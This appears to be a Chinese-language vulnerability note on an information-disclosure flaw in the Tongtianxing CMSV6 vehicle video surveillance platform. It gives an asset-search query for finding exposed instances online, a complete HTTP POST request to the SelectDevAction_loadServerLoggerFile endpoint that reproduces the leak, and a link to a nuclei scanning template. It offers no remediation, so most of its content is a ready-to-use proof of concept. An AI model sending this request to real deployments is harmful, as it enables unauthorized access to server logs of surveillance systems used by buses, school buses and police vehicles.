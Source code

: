 # 通天星CMSV6车载视频监控平台 SelectDevAction_loadServerLoggerFile存在信息泄露漏洞

# 一、漏洞简介
通天星CMSV6车载视频监控平台是东莞市通天星软件科技有限公司研发的监控平台，通天星CMSV6产品覆盖车载录像机、单兵录像机、网络监控摄像机、行驶记录仪等产品的视频综合平台。通天星科技应用于公交车车载、校车车载、大巴车车载、物流车载、油品运输车载、警车车载等公共交通视频监控，还应用在家居看护、商铺远程监控、私家车的行驶分享仪上等。通天星CMSV6车载视频监控平台SelectDevAction_loadServerLoggerFile存在信息泄露漏洞。

# 二、影响版本
+ 通天星CMSV6车载视频监控平台

# 三、资产测绘
+ hunter`web.body="./open/webApi.html"`
+ 特征

![1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4.png](./img/AY8vLTutAnleML4f/1699407412929-42aaba13-ce63-4d08-95e9-ce71fcab3ab4-105320.png)

# 四、漏洞复现
```plain
POST /808gps/LoggerManagement/SelectDevAction_loadServerLoggerFile.action HTTP/1.1
Host: {hostname}
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh-HK;q=0.9,zh;q=0.8
Connection: close

page=1&rp=15&query=&qtype=&pagin=%257B%2522currentPage%2522%253A1%252C%2522pageRecords%2522%253A15%257D
```

![1703419489990-7686e3c1-cc5b-47aa-911f-58344b3d833e.png](./img/AY8vLTutAnleML4f/1703419489990-7686e3c1-cc5b-47aa-911f-58344b3d833e-465266.png)

nuclei脚本

[通天星-CMSV6-selectdevaction-loadserverloggerfile-信息泄露.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/29512878/1735362335744-7f4aa846-6ab1-4fda-99a8-38cd92d8f800.yaml)



> 更新: 2024-12-28 13:05:35  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/uok15t8ka9xabpil>